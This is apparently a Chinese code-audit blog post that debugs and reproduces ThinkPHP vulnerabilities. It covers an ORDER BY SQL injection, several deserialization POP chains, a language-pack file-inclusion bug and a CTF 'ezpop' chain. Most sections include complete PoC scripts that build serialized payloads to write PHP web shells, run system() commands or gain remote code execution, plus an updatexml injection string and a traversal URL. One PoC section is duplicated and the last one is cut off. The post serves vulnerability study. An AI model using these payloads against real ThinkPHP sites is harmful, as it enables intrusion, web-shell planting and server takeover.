代码审计之tp各版本链子调式随笔

- - -

# 代码审计之tp各版本链子调式随笔

闲暇之余，整理审计复现了tp各版本的漏洞，下面做一个知识面整理。

## CVE-2018-16385

## 简介

在ThinkPHP5.1.23之前的版本中存在SQL注入漏洞，该漏洞是由于程序在处理order by 后的参数时，未正确过滤处理数组的key值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

### 范围

ThinkPHP < 5.1.23

### 配置

安装thinkphp5.1.22

```plain
git clone https://github.com/top-think/think.git
git checkout v5.1.22
修改composer.json的topthink/framework值为5.1.22
composer install
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304105730-f14c0b6a-d9d2-1.png)

测试成功在config/database.php配置好数据库连接参数数据库创建一个user表,表里创建一个id字段config/app.php里的debug模式改为true  
修改Index.php:

```plain
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        echo "index";
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"> <h1>:) </h1><p> ThinkPHP V5.1<br/><span style="font-size:30px">12载初心不改（2006-2018） - 你值得信赖的PHP框架</span></p></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="eab4b9f840753f8e7"></think>';
    }

    public function hello($name = 'ThinkPHP5')
    {
        return 'hello,' . $name;
    }
    public function sql(){
        echo "hello ,this is sql test!";
        $data=array();
        $data['id']=array('eq','test');
        $order=$_GET['order'];
        $m=db('user')->where($data)->order($order)->find();
        dump($m);
    }

}
```

## 分析

find()函数->中间跳了很多->/thinkphp/library/think/db/Builder.php parseOrder()的函数!\[\]  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240304105816-0c59b7c2-d9d3-1.png)  
foreach函数将$order数组分为key和value形式。进入parseOrderField()函数!\[\]  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240304105823-10ab0a38-d9d3-1.png)  
这里重点是foreach循环对$val的值做处理,但是这个val的值不用管,最后拼接sql语句是key的值,val在key后面,可以用注释符注释掉进入parseDataBind()函数!\[\]  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240304105832-15b55d94-d9d3-1.png)

这里最后返回字符串,对传入的key的前面拼接了字符串::data**id,111)|updatexml(1,concat(0x3a,user()),1)#0  
然后回到parseOrderField()函数  
return 'field(' . $this->parseKey($query, $key, true) . ',' . implode(',', $val) . ')' . $sort;  
调用Mysql的 parseKey()函数  
拼接了一对反引号在key变量两头:id,111)|updatexml(1,concat(0x3a,user()),1)#最后返回:field(id,111)|updatexml(1,concat(0x3a,user()),1)#,:data**id,111)|updatexml(1,concat(0x3a,user()),1)#0)然后回到了Builer.php的parseOrder()函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110220-9decf76c-d9d3-1.png)

ORDER BY field(id,111)|updatexml(1,concat(0x3a,user()),1)#,:data**id,111)|updatexml(1,concat(0x3a,user()),1)#0)一直调试到后面可以看到sql语句:SELECT \* FROM user WHERE id IN (:where\_AND\_id\_in\_1,:where\_AND\_id\_in\_2) ORDER BY field(id,111)|updatexml(1,concat(0x3a,user()),1)#,:data**id,111)|updatexml(1,concat(0x3a,user()),1)#0) LIMIT 1

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110227-a1d4aa96-d9d3-1.png)

这里由于field函数，漏洞利用有两个关键点:

1.  field()函数必须指定大于等于两个字段才可以正常运行，否则就会报错,当表中只有一个字段时，我们可以随意指定一个数字或字符串的参数
2.  当field中的参数不是字符串或数字时，指定的参数必须是正确的表字段，否则程序就会报错。这里由于程序会在第一个字段中加 限制 ,所以必须指定正确的字段名称。第二个字段没有限制，可以指定字符串或数字

## 简介

ThinkPHP v6.0.8 通过组件 vendor\\league\\flysystem-cached-adapter\\src\\Storage\\Adapter.php发现一个反序列化漏洞。

### 范围:

thinkphp<6.0.9

### 环境

这里装tp6.0.8  
composer create-project topthink/think=6.0.x tp6.0.8  
老规矩删lock文件改comoser.json重新composer install一遍

### 调试

很简单的链子.应该是最短的了Poc:

```plain
<?php
namespace League\Flysystem\Adapter;
class Local{}
namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave;
    protected $cache = [];
}
class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    function __construct(){
        $this->autosave=false;
        $this->adapter=new Local();
        $this->file='huahua.php';
        $this->cache=['huahua'=>'<?php eval($_GET[1]);?>'];
    }
}
$o = new Adapter();
echo urlencode(serialize($o));

?>
```

入口点是abstract class AbstractCache中的\_\_destruct方法  
但是PHP的抽象方法不能被实例化,因此需要实例化它的子类,这里选择的是League\\Flysystem\\Cached\\Storage的Adapter.php  
然后进入Adapter.php的save()方法:目标是进入write()方法,里面有file\_put\_contents,这里参数都可以控制首先看一下getForStorage()方法,它影响了write函数写入文件的内容content它会返回一个json加密的数据,这个参数是cache,protected $cache = \[\];我们实例化的时候可控进入cleanContents()函数:我们只需要传入的cache是一个一维数组就不会进入if语句然后考虑这个this->adapter变量,这里找的是同时具有has()方法和write()方法的类,找到的是League\\Flysystem\\Adapter的Local.php  
首先has方法我们需要保证返回false进入applyPathPrefix()很简单的字符串拼接,我们传入的$this->file只要是一个不存在的文件就行进入write()方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110315-beebfeea-d9d3-1.png)

一样的先调用applyPathPrefix()方法,拼接一下文件路径,这里做的限制是删除路径的/字符,tp默认写入文件就是public目录我们不需要设置路径最后成功写入木马  
此外我们看下Y4tacker师傅的poc

```plain
<?php

namespace League\Flysystem\Cached\Storage{

    use League\Flysystem\Filesystem;

    abstract class AbstractCache{
        protected $autosave = false;


    }
    class Adapter extends AbstractCache
    {
        protected $adapter;
        protected $file;

        public function __construct(){
            $this->complete = "*/<?php phpinfo();?>";
            $this->expire = "永遠的神y4";
            $this->adapter = new \League\Flysystem\Adapter\Local();
            $this->file = "y4tacker.php";
        }

    }
}

namespace League\Flysystem\Adapter{
    class Local extends AbstractAdapter{

    }
    abstract class AbstractAdapter{
        protected $pathPrefix;
        public function __construct(){
            $this->pathPrefix = "./";
        }
    }
}

namespace {

    use League\Flysystem\Cached\Storage\Adapter;
    $a = new Adapter();
    echo urlencode((serialize($a)));
}
```

区别就是初始化的时候赋值的complete变量,因为$contents = $this->getForStorage();我们跟进getForStorage()方法就可以发现return json\_encode(\[$cleaned, $this->complete, $this->expire\]);我们自然可以只赋值complete变量

### 参考

[https://zhuanlan.zhihu.com/p/652094569](https://zhuanlan.zhihu.com/p/652094569)

## CVE-2021-36564

### 简历

ThinkPHP v6.0.8 通过组件 vendor\\league\\flysystem-cached-adapter\\src\\Storage\\Adapter.php发现一个反序列化漏洞。

### 范围:

thinkphp<6.0.9

### 环境

这里装tp6.0.8  
composer create-project topthink/think=6.0.x tp6.0.8  
老规矩删lock文件改comoser.json重新composer install一遍

### 调试

很简单的链子.应该是最短的了Poc:

```plain
<?php
namespace League\Flysystem\Adapter;
class Local{}
namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave;
    protected $cache = [];
}
class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    function __construct(){
        $this->autosave=false;
        $this->adapter=new Local();
        $this->file='huahua.php';
        $this->cache=['huahua'=>'<?php eval($_GET[1]);?>'];
    }
}
$o = new Adapter();
echo urlencode(serialize($o));

?>
```

入口点是abstract class AbstractCache中的\_\_destruct方法  
但是PHP的抽象方法不能被实例化,因此需要实例化它的子类,这里选择的是League\\Flysystem\\Cached\\Storage的Adapter.php  
然后进入Adapter.php的save()方法:目标是进入write()方法,里面有`file_put_contents,这里参数都可以控制首先看一下getForStorage()方法,它影响了write函数写入文件的内容content它会返回一个json加密的数据,这个参数是cache,protected $cache = [];我们实例化的时候可控进入`cleanContents()`函数:我们只需要传入的cache是一个一维数组就不会进入if语句然后考虑这个this->adapter变量,这里找的是同时具有`has()\`方法和write()方法的类,找到的是League\\Flysystem\\Adapter的Local.php  
首先has方法我们需要保证返回false进入applyPathPrefix()很简单的字符串拼接,我们传入的$this->file只要是一个不存在的文件就行进入write()方法一样的先调用applyPathPrefix()方法,拼接一下文件路径,这里做的限制是删除路径的/字符,tp默认写入文件就是public目录我们不需要设置路径最后成功写入木马  
此外我们看下Y4tacker师傅的poc

```plain
<?php

namespace League\Flysystem\Cached\Storage{

    use League\Flysystem\Filesystem;

    abstract class AbstractCache{
        protected $autosave = false;


    }
    class Adapter extends AbstractCache
    {
        protected $adapter;
        protected $file;

        public function __construct(){
            $this->complete = "*/<?php phpinfo();?>";
            $this->expire = "永遠的神y4";
            $this->adapter = new \League\Flysystem\Adapter\Local();
            $this->file = "y4tacker.php";
        }

    }
}

namespace League\Flysystem\Adapter{
    class Local extends AbstractAdapter{

    }
    abstract class AbstractAdapter{
        protected $pathPrefix;
        public function __construct(){
            $this->pathPrefix = "./";
        }
    }
}

namespace {

    use League\Flysystem\Cached\Storage\Adapter;
    $a = new Adapter();
    echo urlencode((serialize($a)));
}
```

区别就是初始化的时候赋值的complete变量,因为$contents = $this->getForStorage();我们跟进getForStorage()方法就可以发现return json\_encode(\[$cleaned, $this->complete, $this->expire\]);我们自然可以只赋值complete变量

## CVE-2021-36567

### 描述

ThinkPHP v6.0.8 已通过组件 League\\Flysystem\\Cached\\Storage\\AbstractCache 包含反序列化漏洞。

### 范围

thinkphp<=6.0.8,Linux系统,因为核心是把system(json加密的数据),类似:  
\[\["`whoami`"\],\[\]\]  
这样的结果返回,Windows肯定不会执行成功,Linux可以返回,虽然没有回显但是命令执行函数已经执行了.所以我们可以写木马文件  
\[\[jmx\],\[\]\]: command not found

### Poc

```plain
<?php
namespace League\Flysystem\Cached\Storage{
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = [];
        protected $cache = ['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`'];
    }
}

namespace think\filesystem{
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key;
        public function __construct($store,$key,$expire)
        {
            $this->key    = $key;
            $this->store  = $store;
            $this->expire = $expire;
        }
    }
}

namespace think\cache{
    abstract class Driver{

    }
}
namespace think\cache\driver{
    use think\cache\Driver;
    class File extends Driver
    {
        protected $options = [
            'expire'        => 0,
            'cache_subdir'  => false,
            'prefix'        => false,
            'path'          => 'y4tacker',
            'hash_type'     => 'md5',
            'serialize'     => ['system'],
        ];
    }
}
namespace{
    $b = new think\cache\driver\File();
    $a = new think\filesystem\CacheStore($b,'y4tacker','1111');
    echo urlencode(serialize($a));

}
```

### 分析

这个链子也非常简单League\\Flysystem\\Cached\\Storage\\AbstractCache的\_\_destruct

```plain
public function __destruct()  
{  
    if (! $this->autosave) {  
        $this->save();  
    }  
}
```

think\\filesystem的CacheStore.php的save()方法:getForStorage()方法调试多了都有经验了,这里设置的cache是一维数组会直接返回cache的值:  
\['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`'\]  
最后返回json\_encode函数处理后的结果  
\[\["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"\],\[\]\]  
然后进入$this->store->set,也就是think\\cache\\driver\\File的set()方法:创建文件目录和文件名后进入serialize方法这里提前设置了$this->options\['serialize'\]为system执行  
system('\[\["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"\],\[\]\]')  
最后虽然没有返回但是命令也被执行了,成功创建文件  
我们自然可以只赋值complete变量,把cache变量设置为空数组也可以

## CVE-2022-33107

### 适用范围

thinkphp<=6.0.12  
Poc:

```plain
<?php
namespace think\model\concern{
    trait Attribute{
        private $data = ['huahua'];
    }
}

namespace think\view\driver{
    class Php{}
}
namespace think\session\driver{
    class File{

    }
}
namespace League\Flysystem{
    class File{
        protected $path;
        protected $filesystem;
        public function __construct($File){
            $this->path='huahua.php';
            $this->filesystem=$File;
        }
    }
}
namespace think\console{
    use League\Flysystem\File;
    class Output{
        protected $styles=[];
        private $handle;
        public function __construct($File){
            $this->styles[]='getDomainBind';
            $this->handle=new File($File);
        }
    }
}
namespace think{
    abstract class Model{
        use model\concern\Attribute;
        private $lazySave;
        protected $withEvent;
        protected $table;
        function __construct($cmd,$File){
            $this->lazySave = true;
            $this->withEvent = false;
            $this->table = new route\Url(new Middleware,new console\Output($File),$cmd);
        }
    }
    class Middleware{
        public $request = 2333;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{}
}

namespace think\route{
    class Url
    {
        protected $url = 'a:';
        protected $domain;
        protected $app;
        protected $route;
        function __construct($app,$route,$cmd){
            $this->domain = $cmd;
            $this->app = $app;
            $this->route = $route;
        }
    }
}


namespace{
    $zoe='<?= phpinfo(); exit();//';
    echo urlencode(serialize(new think\Model\Pivot($zoe,new think\session\driver\File)));
}
```

### 分析

入口点在think\\Model\\的**destruct()方法进入save()方法进入insertData()方法进入checkAllowFields()方法进入db()方法执行$query->table($this->table . $this->suffix);语句此时开始进入链子了,拼接对象和字符串造成toString魔术方法调用,think\\route的Url.phpif语句一直进不去,最后跑到  
$bind = $this->route->getDomainBind($domain && is\_string($domain) ? $domain : null);  
然后进入getDomainBind()方法,这里设置了domain的值,直接进入了Output.php的**call()方法: call\_user\_func\_array(\[$this, 'block'\], $args);  
Output.php的block()方法->writeln()方法  
$this->writeln("<{$style}>{$message}</$style>");  
Output.php的writeln()方法->write()方法:  
$this->write($messages, true, $type);  
此时message为<getdomainbind>write()方法  
$this->handle->write($messages, $newline, $type);  
$this->handle被设置的League\\Flysystem\\File,调用它的write()方法</getdomainbind>

```plain
public function write($content)  
{  
    return $this->filesystem->write($this->path, $content);  
}
```

$this->filesystem被设置的think\\session\\driver\\File,调用它的write()方法:最后执行file\_put\_contents写入木马文件

## CVE-2022-38352

### 影响版本: Thinkphp <= v6.0.13

### 介绍:

攻击者可以通过组件League\\Flysystem\\Cached\\Storage\\Psr6Cache包含反序列化漏洞,目前的Thinkphp6.1.0以上已经将filesystem移除了 因为此处存在好多条反序列化漏洞  
安装和前一篇文章一样,这里为了方便就用上一篇文章的6.0.12了

### poc:

```plain
<?php

namespace League\Flysystem\Cached\Storage{

    class Psr6Cache{
        private $pool;
        protected $autosave = false;
        public function __construct($exp){
            $this->pool = $exp;
        }
    }
}

namespace think\log{
    class Channel{
        protected $logger;
        protected $lazy = true;

        public function __construct($exp){
            $this->logger = $exp;
            $this->lazy = false;
        }
    }
}

namespace think{
    class Request{
        protected $url;
        public function __construct(){
            $this->url = '<?php system(\'calc\'); exit(); ?>';
        }
    }
    class App{
        protected $instances = [];
        public function __construct(){
            $this->instances = ['think\Request'=>new Request()];
        }
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think\log\driver{

    class Socket{
        protected $config = [];
        protected $app;
        public function __construct(){

            $this->config = [
                'debug'=>true,
                'force_client_ids' => 1,
                'allow_client_ids' => '',
                'format_head' => [new \think\view\driver\Php,'display'],
            ];
            $this->app = new \think\App();

        }
    }
}

namespace{
    $c = new think\log\driver\Socket();
    $b = new think\log\Channel($c);
    $a = new League\Flysystem\Cached\Storage\Psr6Cache($b);
    echo urlencode(base64_encode(serialize($a)));
}
```

### 分析

在Index.php添加反序列化点:

```plain
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index(){
        if($_POST["a"]){
            unserialize(base64_decode($_POST["a"]));
        }
        return "hello";
    }

    public function hello($name = 'ThinkPHP6')
    {
        return 'hello,' . $name;
    }
}
```

在unserialize打断点,进入调试首先是Psr6Cache.php的父类的AbstractCache.php的\_\_destruct()方法:

```plain
public function __destruct()
    {
        if (! $this->autosave) {
            $this->save();
        }
    }
```

这个autosave可控,设置为false进入Psr6Cache.php的save()方法这里的pool变量也可控,可以调用任意一个对象的\_\_call方法,这里我们选择的是think\\log\\Channel对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110413-e10e465e-d9d3-1.png)

然后是调用log()方法,$method就是函数名getItem(这里没啥用),然后调用record()方法!\[\]

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110424-e7c8e49a-d9d3-1.png)

直接走到if语句,这里$this->lazy我们可控,直接设置为false就可以进入if语句调用save()方法走到if语句,我们可以控制logger的值,这里设置为think\\log\\driver\\Socket()对象,然后调用think\\log\\driver\\Socket()::save()方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110433-ecfc89da-d9d3-1.png)

这里先执行check()函数:我们想要check函数返回true需要设置config\['force\_client\_ids'\]为true,config\['allow\_client\_ids'\]是空然后回到save()方法,需要设置config\['debug'\]为true,然后if语句判断if ($this->app->exists('request'))这里我们将$this->app设置为\\think\\App,而这个类没有exists方法,会调用父类Container.php的exists()方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110442-f2b46f32-d9d3-1.png)

跟进getAlias()方法:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110451-f79a5e9e-d9d3-1.png)

注释告诉我们根据别名获取真实类名,这里是\\think\\Request,调试可以发现$this->bind就是\\think\\App的bind变量,里面设置了键request的值为Request::class,这里$bind被赋值了\\think\\Request,重新进入getAlias()函数没有进入if语句直接返回了\\think\\Request,而出来后的  
return isset($this->instances\[$abstract\])  
返回为true,因为我们自定义了\\think\\App的instances变量,在Poc里可以发现,为new Request()然后回到Socket.php的save()方法接着走,调用Request的url方法,这个Request对象也被我们重写了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110511-0389e5f8-d9d4-1.png)

调用domain方法:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110524-0b61eda2-d9d4-1.png)

最后返回http://<?php system('calc'); exit(); ?>$currentUri变量的值为http://<?php system('calc'); exit(); ?>而后判断config\['format\_head'\],执行invoke函数这里设置的config\['format\_head'\]为数组: \[new \\think\\view\\driver\\Php,'display'\]App.php没有invoke方法,调用父类Container.php的:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110539-14302e12-d9d4-1.png)

这里直接会走到invokeMethod方法,$callable是数组\[new \\think\\view\\driver\\Php,'display'\]$vars是一维数组:http://<?php system('calc'); exit(); ?>

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110600-213be628-d9d4-1.png)

先把$method分开键值对,即class为\\think\\view\\driver\\Php,method为display,生成reflect反射对象  
最后调用$reflect->invokeArgs()方法\`,走到Php.php的display方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110607-256ca584-d9d4-1.png)

完成RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110614-292606c0-d9d4-1.png)

## CVE-2022-45982

### 范围

ThinkPHP 6.0.0~6.0.13 和 6.1.0~6.1.1

### 调试

入口点是abstract class Model的\_\_destruct()方法

```plain
public function __destruct()
    {
        if ($this->lazySave) {
            $this->save();
        }
    }
```

进入save()方法之后  
$this->setAttrs($data);  
直接进入Attribute.php的setAttrs()方法直接返回没啥用在$result = $this->exists ? $this->updateData() : $this->insertData($sequence);这里会进入updateData()方法,我们设置了$this->exists为true这里我们需要进入$this->getChangedData()方法,因为里面涉及一些数组删除操作使我们能进入下面的if语句$data是我们可控的$this->data,我们设置为\['a' => 'b'\]$this->readonly我们设置好为\['a'\]经过if判断,删掉了$data的内容,此时$data为空回来Model.php正好进入if语句,调用$this->autoRelationUpdate()方法我们可控($this->relationWrite的内容,设置为一个二维数组

```plain
['r' =>  
    ["n" => $value]  
]
value是一个think\route\Url类型的对象
```

调用到$model = $this->getRelation($name, true);我们控制$this->relation = \['r' => $this\];,$this为本Pivot对象然后可以进入if语句调用$model->exists(true)->save($val);,此时$val是被键值对分出的值,一维数组\["n" => $value\]  
然后就调用的Model的save()方法,这个危险方法应该很敏感了此时的$data是一个\\think\\route\\Url对象了进入setAttrs()->Attribute.setAttrs()->$this->setAttr()目标是拼接字符串,我们需要设置$this->origin = \["n" => $value\];去调用Url.**toString()方法->build()然后走到我们常见的  
$bind = $this->route->getDomainBind($domain && is\_string($domain) ? $domain : null);  
$this->route被设置为think\\log\\Channel对象,调用它的**call->log(->record()我们自定义lazy变量为false进入save()调用$this->logger->save->Store.php的save()熟悉的serialize()方法熟悉的RCE我们可控Store.php的一些变量

```plain
protected $serialize = ["call_user_func"];
$this->data = [$data, "param"];
$data是think\Request()实例
```

调用的call\_user\_func($this->data)去了Request的param()函数  
进入input()函数先进入getFilter()获取$this->filter,用逗号分割开成数组,在加了一个null($default)  
然后进入filterValue()方法调用call\_user\_func($filter, $value)  
我们自定义的request

```plain
protected $mergeParam = true;  
protected $param = ["whoami"];  
protected $filter = "system";
```

最终RCE

### Poc

```plain
<?php

namespace think {
    abstract class Model
    {
        private $lazySave = true;
        private $data = ['a' => 'b'];
        private $exists = true;
        protected $withEvent = false;
        protected $readonly = ['a'];
        protected $relationWrite;
        private $relation;
        private $origin = [];

        public function __construct($value)
        {
            $this->relation = ['r' => $this];
            $this->origin = ["n" => $value];
            $this->relationWrite = ['r' =>
                ["n" => $value]
            ];
        }
    }

    class App
    {
        protected $request;
    }

    class Request
    {
        protected $mergeParam = true;
        protected $param = ["whoami"];
        protected $filter = "system";
    }
}

namespace think\model {

    use think\Model;

    class Pivot extends Model
    {
    }
}

namespace think\route {

    use think\App;

    class Url
    {
        protected $url = "";
        protected $domain = "domain";
        protected $route;
        protected $app;

        public function __construct($route)
        {
            $this->route = $route;
            $this->app = new App();
        }
    }
}

namespace think\log {
    class Channel
    {
        protected $lazy = false;
        protected $logger;
        protected $log = [];

        public function __construct($logger)
        {
            $this->logger = $logger;
        }
    }
}

namespace think\session {
    class Store
    {
        protected $data;
        protected $serialize = ["call_user_func"];
        protected $id = "";

        public function __construct($data)
        {
            $this->data = [$data, "param"];
        }
    }
}

namespace {
    $request = new think\Request();         //  param
    $store = new think\session\Store($request);     // save
    $channel = new think\log\Channel($store);     // __call
    $url = new think\route\Url($channel);   // __toString
    $model = new think\model\Pivot($url);   // __destruct
    echo urlencode(serialize($model));
}
```

## CVE-2022-47945

### 影响范围:

thinkphp<=6.0.13

### 描述

如果 Thinkphp 程序开启了多语言功能，那就可以通过 get、header、cookie 等位置传入参数，实现目录穿越+文件包含，通过 pearcmd 文件包含这个 trick 即可实现 RCE。

### 复现:

#### thinkphp6.0.12

##### 安装

composer create-project topthink/think=6.0.12 tp6  
注意由于composer在安装时一些依赖的更新导致此时的tp6不是6.0.12而是6.1.4,因此我们需要手动修改composer.json的require的内容:

```plain
"require": {
        "php": ">=7.2.5",
        "topthink/framework": "6.0.12",
        "topthink/think-orm": "^2.0"
    },
```

重新执行composer install即可

##### 调试

这里环境是Windows+phpstorm调试phpstorm打开tp6文件夹,添加一个PHP内置Web服务器的运行配置文件然后修改app/middleware.php的内容,把多语言加载的注释给删了

```plain
<?php
// 全局中间件定义文件
return [
    // 全局请求缓存
    // \think\middleware\CheckRequestCache::class,
    // 多语言加载
    \think\middleware\LoadLangPack::class,
    // Session初始化
    // \think\middleware\SessionInit::class
];
```

由于我们调试的是任意文件包含,我们在public目录写一个test.php以便调试

```plain
<?php
echo "test";
```

跳转\\think\\middleware\\LoadLangPack,下断点  
url: [http://localhost:1221/public?lang=../../../../../public/test](http://localhost:1221/public?lang=../../../../../public/test)开启调试:首先会调用detect函数来依次遍历get,请求头和cookie是否有lang参数,也就是$this->config\['detect\_var'\]内置变量  
先小写一遍赋值给$langSet变量而后由于$this->config\['allow\_lang\_list'\]变量默认是空的进入if语句将$langSet赋值给$range变量,而后调用setLangSet()函数将Lang.php的private属性的$range变量赋值从默认的zh-cn改为../../../../../public/test  
然后会比较当前langset变量是否等于默认的"zh-cn",不等于进入if语句,调用switchLangSet()函数然后调用load()函数,参数是个只有一个值的数组,$this->app->getThinkPath() . 'lang' . DIRECTORY\_SEPARATOR . $langset . '.php'值为D:\\phpstudy\_pro\\WWW\\think\\vendor\\topthink\\framework\\src\\lang../../../../../public/test.php这里就是我们的目标文件地址进入load()函数:参数file就是这个目标文件地址,通过一个foreach循环来调用parse()函数  
这个parse函数就是最终sink点,先pathinfo取出后缀名来判断文件类型,然后包含文件最终成功包含test.php文件

## 代码审计题-ezpop

复现一道代码审计题，顺带学习一波  
环境搭建：  
composer create-project topthink/think tp6  
漏洞分析：1.打开源码，第一步从全局定位**destruct()或**wakeup进行搜索，寻找链子，发现在 vendor\\topthink\\think-orm\\src\\Model.php 只要把 $this->lazySave设为True,就会调用了save方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110714-4d56108a-d9d4-1.png)

跟进save方法，发现此处需要绕过if函数为True即可过，这里跟进isEmpty() 和 updateData()方法分析

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110728-55568404-d9d4-1.png)

跟进isEmpty方法，发现$this->data不为空，$this->trigger方法默认返回就不是false

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110740-5c71d1c6-d9d4-1.png)

继续跟进updateData()方法，发现检查允许字段checkAllowFields()方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110750-627aa322-d9d4-1.png)

继续跟进checkAllowFields()方法，来到方法db，分析$table = $this->table ? $this->table . $this->suffix : $query->getTable();发现这里利用三元运算符，存在$this->table . $this->suffix字符串拼接，可以触发\_\_toString()魔术方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110758-67712bda-d9d4-1.png)

下面全局搜索**toString()方法，定位到vendor\\topthink\\think-orm\\src\\model\\concern\\Conversion.php类中的**toString\*\*方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110811-6f4bbe92-d9d4-1.png)

来到Conversion.php类中，发现调用了toJson() 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110825-777ea232-d9d4-1.png)

继续跟进，发现来到了toArray()方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110834-7cb29628-d9d4-1.png)

继续跟进toArray()方法进行分析如下代码，发现如果getAttr默认就会触发，需要将$data设为数组即可

```plain
public function toArray(): array
    {
        $item = $visible = $hidden = [];
        $hasVisible = false;

        foreach ($this->visible as $key => $val) {
            if (is_string($val)) {
                if (strpos($val, '.')) {
                    [$relation, $name] = explode('.', $val);
                    $visible[$relation][] = $name;
                } else {
                    $visible[$val] = true;
                    $hasVisible = true;
                }
            }
        }

        foreach ($this->hidden as $key => $val) {
            if (is_string($val)) {
                if (strpos($val, '.')) {
                    [$relation, $name] = explode('.', $val);
                    $hidden[$relation][] = $name;
                } else {
                    $hidden[$val] = true;
                }
            }
        }

        // 追加属性（必须定义获取器）
        foreach ($this->append as $key => $name) {
            $this->appendAttrToArray($item, $key, $name, $visible, $hidden);
        }

        // 合并关联数据
        $data = array_merge($this->data, $this->relation);

        foreach ($data as $key => $val) {
            if ($val instanceof Model || $val instanceof ModelCollection) {
                // 关联模型对象
                if (isset($visible[$key]) && is_array($visible[$key])) {
                    $val->visible($visible[$key]);
                } elseif (isset($hidden[$key]) && is_array($hidden[$key])) {
                    $val->hidden($hidden[$key], true);
                }
                // 关联模型对象
                if (!isset($hidden[$key]) || true !== $hidden[$key]) {
                    $item[$key] = $val->toArray();
                }
            } elseif (isset($visible[$key])) {
                $item[$key] = $this->getAttr($key);
            } elseif (!isset($hidden[$key]) && !$hasVisible) {
                $item[$key] = $this->getAttr($key);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110845-831e4c6e-d9d4-1.png)

继续跟进，这里跟进getAttr()方法，发现漏洞方法是getValue

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110855-894cc6b0-d9d4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110903-8df4922e-d9d4-1.png)

继续挖掘，这里跟进getData()方法进行分析，发现data变量可控，分析$fieldName变量，所以这里需要分析getRealFieldName方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110912-9364cb84-d9d4-1.png)

跟进getRealFieldName方法，这里$name直接返回，说明$fieldName是可控的，因为前面说过$value = $this->getData($name); 说明$value也是可控的。那么这里我们继续回到getValue()方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110921-989d1188-d9d4-1.png)

重新回到getValue()方法，继续分析，发现这里需要绕过两个if函数，来到getJsonValue()方法触发漏洞点

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110930-9e4a00c8-d9d4-1.png)

继续分析，跟进getJsonValue方法，这里触发点需要满足 $this->jsonAssoc = True$value\[$key\] = $closure($value\[$key\], $value);

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110940-a4152aaa-d9d4-1.png)

通过分析，发现$closure和$value都可控，得到最后触发点

```plain
protected function getJsonValue($name, $value)
  {
    if (is_null($value)) {
      return $value;
    }

    foreach ($this->withAttr[$name] as $key => $closure) {
      if ($this->jsonAssoc) {
        $value[$key] = $closure($value[$key], $value);
      } else {
        $value->$key = $closure($value->$key, $value);
      }
    }
```

得到一条完整的POP链Model.php => save() =>isEmpty() | updateData() => checkAllowFields() => db() => $this->table . $this->suffix=> 全局搜索toString() => model\\concern\\Conversion.php => toJson() => toArray() => foreach() => getAttr($key) => getData()=> getValue() =>$value => getData($name) => getRealFieldName() => $fieldName/$data/$value可控 => 返回getValue()方法=> 绕过两个if判断 => $this->withAttr和$this->json可控 => getJsonValue() => $this->jsonAssoc => 触发$closure($value\[$key\], $value)  
编写POC

```plain
<?php
namespace think{
    abstract class Model{
        private $lazySave = false;
        private $data = [];
        private $exists = false;
        protected $table;
        private $withAttr = [];
        protected $json = [];
